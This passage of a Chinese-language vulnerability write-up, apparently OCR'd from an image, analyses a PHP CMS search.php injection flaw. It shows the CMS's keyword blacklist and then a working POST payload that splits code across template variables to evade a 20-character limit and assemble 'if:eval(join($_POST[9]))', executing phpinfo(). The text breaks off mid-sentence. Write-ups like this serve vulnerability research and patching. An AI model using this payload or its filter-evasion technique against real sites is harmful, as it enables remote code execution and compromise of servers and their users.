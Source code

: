 ```php
   $ra2 = Array('onabort', 'onactivate', 'onafterprint', 'onafterupdate', 'onbeforeactivate', 'onbeforecopy', 'onbeforecut', 'onbeforedeactivate', 'onbeforeeditfocus', 'onbeforepaste', 'onbeforeprint', 'onbeforeunload', 'onbeforeupdate', 'onblur', 'onbounce', 'oncellchange', 'onchange', 'onclick', 'oncontextmenu', 'oncontrolselect', 'oncopy', 'oncut', 'ondataavailable', 'ondatasetchanged', 'ondatasetcomplete', 'ondblclick', 'ondeactivate', 'ondrag', 'ondragend', 'ondragenter', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'onerror', 'onerrorupdate', 'onfilterchange', 'onfinish', 'onfocus', 'onfocusin', 'onfocusout', 'onhelp', 'onkeydown', 'onkeypress', 'onkeyup', 'onlayoutcomplete', 'onload', 'onlosecapture', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onmove', 'onmoveend', 'onmovestart', 'onpaste', 'onpropertychange', 'onreadystatechange', 'onreset', 'onresize', 'onresizeend', 'onresizestart', 'onrowenter', 'onrowexit', 'onrowsdelete', 'onrowsinserted', 'onscroll', 'onselect', 'onselectionchange', 'onselectstart', 'onstart', 'onstop', 'onsubmit', 'onunload'); 
   $ra = array_merge($ra1, $ra2); 

    ......
    
   return $val;  
}   
```

其中，黑名单数组的第一组 $ra1 中的第5项添加了 `if:` 这个黑名单匹配项，还加了另外其他的几个匹配项

```
'_GET','_POST','_COOKIE','_REQUEST'
```

所以 v_6.4.5 版本的 payload 会因为逻辑关系的不成立，因此在 eval() 函数中得不到执行。



那么我们来看看这个版本的脑洞版 payload 

```php
文件：
search.php

POST 内容：
searchtype=5
&searchword={if{searchpage:year}
&year=:e{searchpage:area}}
&area=v{searchpage:letter}
&letter=al{searchpage:lang}
&yuyan=(join{searchpage:jq}
&jq=($_P{searchpage:ver}
&ver=OST[9]))
&9[]=ph
&9[]=pinfo();

// 传递拼接为 ：if:eval(join($_POST[9]))
```



因为每个传入的参数限长为 20，所以我们必须尽可能多的使用之后会在模板文件中进行替换的变量进行 payload 的构造。

每一步都会将上一步构造的 payload 进行二次构造，最后传递成为最终等待执行的代码:
